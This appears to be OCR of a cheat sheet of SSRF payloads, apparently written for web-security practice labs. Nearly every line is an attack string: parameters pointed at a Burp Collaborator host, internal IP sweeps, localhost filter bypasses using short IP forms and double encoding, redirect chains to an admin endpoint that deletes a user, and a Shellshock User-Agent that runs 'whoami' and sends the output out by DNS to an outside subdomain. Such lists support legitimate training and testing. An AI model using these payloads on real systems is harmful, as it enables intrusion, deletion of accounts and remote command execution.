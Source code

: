 ssrf - /admin
Test and Search for
for ssrf blind
-Every param to: http://subdomain.burpcollaborator.net - https
for ssrf reflected
-http:// - https
-http://$domain - http://subdomain.$domain - https
-http://192.168 - https
-http://127 - https
1)search stockApi=http://localhost/admin/delete?username=carlos
2)http://192.168.§0§.§1§:8080/admin
3)http://127.0.0.1/ - http://127.1/ - http://127.1/admin - http://127.1/%2561dmin
4)http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
5)/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
6)User-Agent: () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net + Referrer: http://192.168.§0§.§1§:8080,443,80
